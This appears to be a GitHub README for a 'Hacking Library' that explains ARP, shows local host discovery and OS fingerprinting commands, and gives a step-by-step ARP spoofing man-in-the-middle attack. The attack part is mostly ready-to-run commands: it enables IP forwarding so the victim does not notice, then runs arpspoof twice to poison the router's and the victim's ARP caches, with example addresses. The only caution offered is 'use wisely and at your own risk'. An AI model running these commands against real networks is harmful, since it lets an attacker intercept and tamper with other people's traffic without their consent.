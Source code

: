 # Introduction to Hacking Library

The goal of this library is to create an archive of useful tools and how to use them, mostly for:

- Hacking
- Pentests 
- Security

Remember, this is only a guide, use the knowledge here wisely and at your own risk.

Have fun!

# Analysis Tools 

## ARP

The ARP protocol (Address Resolution Protocol) associates every MAC address with an IP address in the local network. The way this works is with a broadcast in the local network, asking every host about their pairs IP/MAC. Every time a broadcast occurs the host sends his own pair IP/MAC besides asking other hosts their pairs, so it can be saved into a cache in every machine.

You can check the cache in your own machine with:

```console
$ arp -a
```

Using ARP protocol you can either scan your local network to discover hosts, revealing their MAC addresses and internet adapter manufacturer:

```console
$ sudo arp-scan --interface=eth0 --localnet
```

or try to guess the OS of the hosts with:

```console
$ sudo arp-fingerprint -l
```

# Attack Tools

## ARP Spoofing

The objective of this attack is to add/replace some entries in the ARP table making the router believe that the attacker is in reality the victim and making the victim believe that the attacker is the router.

![ARP Spoofing Image](/img/ARP%20Spoofing.png)

### Enabling fowarding:

First you need to enable fowarding of packets so the victim doesn't know that something happened.

- For temporary fowarding ():

```console
$ sudo sysctl -w net.ipv4.ip_forward=1
```

or 

```console
$ sudo echo 1 > /proc/sys/net/ipv4/ip_forward
```

but this will disable fowarding when the machine is rebooted.

- For permanent fowarding:

```console
$ sudo nano /etc/sysctl.conf
```

then find the line:

```
#Uncomment the next line to enable packet forwarding for IPv4
#net.ipv4.ip_forward=1
```

and delete the "#" in the second line:

```
#Uncomment the next line to enable packet forwarding for IPv4
net.ipv4.ip_forward=1
```

then

> Ctrl o

> Enter

> Ctrl x

and finally run this to apply the changes:

```console
$ sudo sysctl -p /etc/sysctl.conf
```

### Making a man in the middle with Arpspoof:

To make this we will use this command two times:

```console
$ sudo arpspoof -i {NETWORK_INTERFACE} -t {TARGET_IP} {IP_YOU_WILL_BE_PRETENDING_TO_BE}
```

- First to make the router think that our machine is the victim:

```console
$ sudo arpspoof -i {NETWORK_INTERFACE} -t {ROUTER_IP} {VICTIM_IP}
```

Example:

```console
$ sudo arpspoof -i eth0 -t 192.168.0.1 192.168.0.104
```

- Then we make the victim think that our machine is the router:

```console
$ sudo arpspoof -i {NETWORK_INTERFACE} -t {VICTIM_IP} {ROUTER_IP}
```

Example:

```console
$ sudo arpspoof -i eth0 -t 192.168.0.104 192.168.0.1
```

and with this we have a man in the middle set.